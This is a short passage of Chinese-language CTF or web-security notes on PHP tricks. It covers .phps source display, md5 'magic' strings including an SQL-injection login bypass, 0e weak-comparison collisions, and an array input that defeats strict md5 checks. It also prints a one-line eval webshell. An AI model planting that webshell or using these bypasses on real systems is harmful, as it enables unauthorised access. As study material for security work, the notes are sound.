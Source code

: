 2. `.phps` 文件（PHP Source 文件）

- 服务器行为：

  不执行 PHP 代码, 直接将源代码以语法高亮形式输出
 
- 客户端看到：

```php
<?php
// 带颜色的源代码
echo "<h1>Hello World</h1>";
?>
```
- 典型路径：https://example.com/login.phps


另外, url 大部分时候主要是编码和解码, 但是有些网站会使用加密, 注意区别, 以及 % 等特殊符号可能需要多次加密或者转义


### md5 哈希碰撞

#### 特殊字符串

0e215962017 这个字符串md5后于自身弱比较相等

ffifdyop md5 后变为万能密码: `' or '`

#### 弱比较绕过

当弱比较且哈希值都为 `0e` 开头, 将作为科学计数法处理, 又因为 0 的任意乘方都为零, 所以两个 `0e` 开头的字符串弱比较将会相等:

常用碰撞:

 `s878926199a` 和 `s155964671a`

#### 强比较绕过

传字符串则 md5 函数的返回结果为 null, 强比较 null === null , 通过;

```php
if($_POST['a']!==$_POST['b']&& md5($_POST['a'])===md5($_POST['b'])){
	die("success!");
}
```

只需要传入:

```
a[]=1&b[]=2
```

### 一句话木马:

```php
<?php @eval($_POST['shell']);?>
```

### intval 绕过

